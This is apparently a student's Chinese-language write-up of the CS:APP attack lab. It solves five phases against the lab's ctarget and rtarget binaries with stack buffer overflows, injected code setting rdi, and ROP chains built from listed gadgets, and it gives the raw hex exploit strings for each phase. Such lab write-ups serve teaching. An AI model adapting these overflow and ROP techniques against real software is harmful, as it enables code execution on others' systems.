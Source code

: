 # 第三周lab实验笔记
本次实验共五个任务，前三个在ctaget上，4和5在rtarget上。 
一开始看这个实验一脸懵逼，看的官网的writewp大体明白了这个实验是个啥子意思

## phase_1
根据writewp上的源码，我们需要通过栈溢出控制程序流程跳转至touch1函数
test函数源码
```
1 void test()
2 {
3 int val;
4 val = getbuf();
5 printf("No exploit. Getbuf returned 0x%x\n", val);
6 }
```
test函数中调用了getbuf函数，查看其反汇编代码
```
pwndbg> disassemble getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    rsp,0x28
   0x00000000004017ac <+4>:	mov    rdi,rsp
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    eax,0x1
   0x00000000004017b9 <+17>:	add    rsp,0x28
   0x00000000004017bd <+21>:	ret    
```
可以看到只需要溢出0x28的数据即可覆盖rip控制程序流程
查看touch1的地址
```
pwndbg> p touch1
$1 = {void ()} 0x4017c0 <touch1>
```
然后就是这次实验给出的工具hex2raw，我们需要通过这个工具生成字符串完成实验
创建attach.txt并在其中存入如下内容
```
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61
61 61 61 61 61 61 61 61 c0 17 40
```
前面这些a的十六进制表示我是拿010生成的，后面再手动补上小端存储的touch1地址
然后执行程序完成本次实验
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image1.png)

## phase_2
touch2源代码
```
1 void touch2(unsigned val)
2 {
3 vlevel = 2; /* Part of validation protocol */
4 if (val == cookie) {
5 printf("Touch2!: You called touch2(0x%.8x)\n", val);
6 validate(2);
7 } else {
8 printf("Misfire: You called touch2(0x%.8x)\n", val);
9 fail(2);
10 }
11 exit(0);
12 }
```
程序要求我们令val的值等于我们的cookie值才能通过，而val则是作为函数的第一个参数传入，也就是说只要让rdi寄存器的值等于cookie就可以了
使用ROPgadget找到如下gadget
```
0x000000000040141b : pop rdi ; ret
```
然后构造ROP链如下所示
```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 1b 14 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00 ec 17 40 00 00 00 00 00
```
完成phase_2
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image2.png)

嗯，做到后面猛然发现，前三题是要用code-injection做的，重来重来
思路还是一样的可以通过构造如下方式完成等同于ROP链的效果
```
mov    $0x59b997fa, %rdi
push   $0x4017ec
ret
```
然后还需要将rsp寄存器的地址作为第一次返回地址
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image5.png)
这样就可以完成本题了
```
48 c7 c7 fa 97 b9 59 	
68 ec 17 40 00       	
c3 
00 00 00 00 00 00 00
00 00 00 00 00 00 00
00 00 00 00 00 00 00
00 00 00 00 00 00
78 dc 61 55
```
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image6.png)

## phase_3
touch3的源码
```
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4 char cbuf[110];
5 /* Make position of check string unpredictable */
6 char *s = cbuf + random() % 100;
7 sprintf(s, "%.8x", val);
8 return strncmp(sval, s, 9) == 0;
9 }
10
11 void touch3(char *sval)
12 {
13 vlevel = 3; /* Part of validation protocol */
14 if (hexmatch(cookie, sval)) {
15 printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 validate(3);
17 } else {
18 printf("Misfire: You called touch3(\"%s\")\n", sval);
19 fail(3);
20 }
21 exit(0);
22 }
```
发现其调用了hexmathch函数，并将cookie和sval作为指针传入其中。
hexmatch函数会将我们的cookie值以字符串形式输出，然后与rdi中的值进行比对，相同则通过程序。
```
mov    $0x5561dca8, %rdi
push   $0x4018fa
ret
```
使用caller的栈顶地址作为存放字符串的地址，然后将其赋值给rdi，这样就可以避免其被覆盖
可以通过gdb调试找到caller的栈顶地址
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image8.png)
转换后
```
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image7.png)

## phase_4
跟phase_2一样的题目，但是需要通过ROP完成攻击。
然后构造ROP链如下所示
```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 1b 14 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00 ec 17 40 00 00 00 00 00
```
![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image9.png)

## phase_5
同phase_3的题目一样的要求，不过这次栈地址随机化弄得很难受
不过用ROPgadget看了一下有惊喜
```
0x0000000000401383 : pop rsi ; ret
0x0000000000401a06 : mov rax, rsp ; ret
0x00000000004019a2 : mov rdi, rax ; ret
0x00000000004019d6 : lea rax, [rdi + rsi] ; ret
```
可以用这几个gadget构造ROP链
```
pop rsi ; ret
0x20
mov rax, rsp ; ret
mov rdi, rax ; ret
lea rax, [rdi + rsi] ; ret
mov rdi, rax ; ret
touch3_addr
cookie_string
```
转换成16进制小端存储
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
83 13 40 00 00 00 00 00
20 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
```
完成本题

![avatar](https://github.com/AmaIIl/attacklab/blob/gh-pages/image10.png)



